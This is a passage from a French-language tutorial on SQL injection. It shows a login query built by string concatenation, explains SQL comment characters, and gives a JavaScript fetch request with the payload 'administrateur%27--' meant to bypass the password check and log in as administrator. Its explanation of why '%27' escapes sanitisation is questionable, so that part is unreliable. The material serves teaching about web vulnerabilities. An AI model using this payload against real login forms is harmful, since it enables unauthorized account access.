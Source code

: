 <h4 id="h4-1-2"> Interprétation par le serveur </h4>

```sql
SELECT * FROM users WHERE username = ' + requete.username + ' AND password = ' + requete.password + '
```

ce qui donne ici :

```sql
SELECT * FROM users WHERE username = 'mon_username' AND password = 'mon_password'
```

<h4 id="h4-1-3"> Attaquer cette mécanique </h4>

L'objectif est de ne pas avoir à passer l'étape de vérification du mot de passe.

Pour ça, on va utiliser une mécanique assez simple en programmation : **les commentaires**.

{% note %}
Pour une base de donnée Oracle, Microsoft ou PostgreSQL, les commentaires sont fait par **--**
Pour une base de donnée qui utilise MySQL, les commentaires sont fait par **#** qui vaut **%23** en hexadécimal
{% endnote %}

Donc si on termine le *username* envoyé dans la requête par un comentaire, il n'y aura pas de vérificaton du *password*.

```javascript
fetch("https://nomDuServeur/login",
{
    method: "POST",
    body: JSON.stringify(
      {
        username : "administrateur%27--",
        password : "n'importeQuoi"
      }
    )
})
```

{% note %}
Le caractère **%27** correspond au symbole **'** de fermeture de chaine de caractère, il permet de dire que le nom d'utilisateur est fini.
Pourquoi on utilise ça plutôt que **'** ?
Le serveur va rajouter un caractère d'échappement devant les caractères qu'il utilise notamment **'**, mais pas devant sa forme hexadécimale **%27**
{% endnote %}

<h4 id="h4-1-4"> Interprétation de la requête par le serveur </h4>

```sql
SELECT * FROM users WHERE username = 'administarteur'--' AND password = 'n\'importeQuoi'
```

{% info %}
Et là, vous êtes connectés en tant qu'administrateur du site.
{% endinfo %}
